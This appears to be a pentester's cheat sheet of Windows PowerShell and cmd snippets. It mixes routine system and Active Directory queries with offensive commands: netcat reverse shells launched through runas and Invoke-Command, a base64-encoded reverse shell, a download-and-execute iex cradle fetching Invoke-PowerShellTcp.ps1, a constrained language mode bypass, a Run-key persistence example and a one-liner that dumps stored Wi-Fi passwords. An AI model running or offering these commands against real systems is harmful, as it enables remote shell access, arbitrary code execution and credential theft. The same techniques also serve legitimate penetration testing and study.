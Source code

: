 # Command Snippets.  
This section is devoted for small, quick and dirty commands!   

## Windows  

__Powershell encoded command__.  
```
```

__Get System Information__

```
Get everything:
Get-ComputerInfo

Search for all properties:
Get-ComputerInfo -Property '*' | More
Get Windows Edition:
Get-ComputerInfo -Property 'WindowsEditionId'

Get Windows ProductName: 
Get-ComputerInfo -Property 'WindowsProductName' 

Get Windows Version:
Get-ComputerInfo -Property 'WindowsVersion'

Get Build label:
Get-ComputerInfo -Property 'WindowsBuildLabEx' 
```
__Less Alternative__
```
More is less (unix) on Windows.
Pun intended
```
__Current User information__
```
whoami
[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
echo $env:username
```

__Local Computer FQDN__
```
[System.Net.Dns]::GetHostEntry([string]"localhost").HostName
```

__Get Computername__
```
echo $env:computername
Get-ComputerInfo -Property 'CsName' 
```
__Get/Set  Enviroment__

_Get_
```
Get-ChildItem env: | sort name
```

_Set_
```
Set-Item -Path Env:Path -Value ($Env:Path + ";C:\Temp")
```
__Get Powershell History User__
```
cat (Get-PSReadlineOption).HistorySavePath
```
__Show hotfixes/updates__
```
Get all hotfixes
Get-HotFix

Search for a hotfix
Get-Hotfix -Id <<KB-Number>> -ErrorAction SilentlyContinue

Get recently installed
(Get-HotFix | Sort-Object -Property InstalledOn)[-1]
```
__Get Local Drives__
```
Get-PsDrive
```
__Get AD Users__  
NOTE: ActiveDirectory Module should be imported
```
Get-ADUser -Filter * -Properties samAccountName | select samAccountName
```
__Get All groups in AD__
```
Get-ADGroup -filter * -properties GroupCategory | ft name,groupcategory
```
__Get all OU's in AD__
```
Get-ADOrganizationalUnit -Filter 'Name -like "*"' | Format-Table Name, DistinguishedName -A
```

__See all Users who belong to a group__
```
 Get-ADGroupMember "Service Accounts"
```

__Run command as a different User__

_cmd.exe_
```
Please note that this only works when a previous user has used the /savecred flag
runas /user:.\<<USERNAME>> /savecred 'nc.exe -e cmd.exe 10.10.14.13 6666'
```
 
 _powershell_
```
$username = 'DOMAINNAME\\USERNAME';$password = 'PASSWORD';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential -ArgumentList $username, $securePassword; Invoke-Command -Credential $credential -ComputerName localhost -Verbose -ScriptBlock {C:\inetpub\wwwroot\nc.exe -e powershell  10.10.8.1 4444}
```

## Get,Edit,Set Registry 

__Get Registry keys__

```
Get-Item -path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

__Search Registry__

```
get-childitem -path hkcu:\ -recurse -ErrorAction SilentlyContinue | Where-Object {$_.Name -like "*Control*"}
```

__Set Edit Registry Key__

```
Set-Itemproperty -path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run' -Name 'VMware User Process' -value 'C:\Program Files\VMware\VMware Tools\vmtoolsd.exe'
```

__Create New Key__

```
New-Item –Path "HKCU:\dummy" –Name NetwrixKey
```

## Wireless
__Extract Wireless Keys__
```
$output = netsh wlan show profiles  | Select-String -AllMatches -Pattern ": (.*)" |% {$_.Matches.Groups} |? {$_.Name -eq 1} | Select-Object -Property Value  ; $output |% {"netsh wlan show profile name=$($_.Value) key=clear" |  iex}
```

## Execute Encoded Command 

```
Base64 Encoded
$Text="nc -e cmd.exe 10.10.10.1 4444";$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText =[Convert]::ToBase64String($Bytes);$EncodedText

Execute Command
powershell -c EncodedCommand bgBjACAALQBlACAAYwBtAGQALgBlAHgAZQAgADEAMAAuADEAMAAuADEAMAAuADEAIAA0ADQANAA0AA==
```

## Bypass Constrained Language Mode

```
powershell -version 2 
```

## Download file and execute

```
powershell -command iex (New-Object System.Net.WebClient).DownloadString('http://10.10.14.11/Invoke-PowerShellTcp.ps1')
```

## Get Groups of username 

```
Get-ADPrincipalGroupMembership username | select name
```

## Get LDAP properties Deleted Users
```
Get-ADObject -ldapFilter:"(msDS-LastKnownRDN=*)" -IncludeDeletedObjects -Properties *
```

## Show which user belong to which group in whole AD 
```
Get-ADGroup -filter * -properties GroupCategory | ForEach-Object { echo $.name ; Get-Adgroupmember -identity  $.name | ft name  }
```

## Unix 

